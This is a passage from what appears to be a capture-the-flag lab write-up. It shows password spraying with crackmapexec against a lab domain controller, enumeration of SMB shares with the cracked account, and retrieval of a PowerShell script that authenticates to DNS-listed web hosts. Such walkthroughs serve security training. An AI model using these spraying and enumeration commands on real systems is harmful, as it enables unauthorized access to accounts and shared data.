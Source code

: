 Using **Password Spraying** against all users:
```
crackmapexec smb 10.10.10.248 -u usernames.list -p 'NewIntelligenceCorpUser9876' --continue-on-success
```

The password works on the user _Tiffany.Molina_ and can be used to enumerate the SMB shares.

## Checking SMB (Port 445)

Enumerating the SMB shares:
```
crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' --shares
```
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
IPC$            READ            Remote IPC
IT              READ            
NETLOGON        READ            Logon server share
SYSVOL          READ            Logon server share
Users           READ            
```

The share _IT_ may contain sensitive information:
```
smbclient -U Tiffany.Molina //10.10.10.248/IT
```
```
smb: \> dir

downdetector.ps1    A    1046    Mon Apr 19 02:50:55 2021

smb: \> get downdetector.ps1
```

Contents of the PowerShell script _downdetector.ps1_:
```powershell
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory

foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```
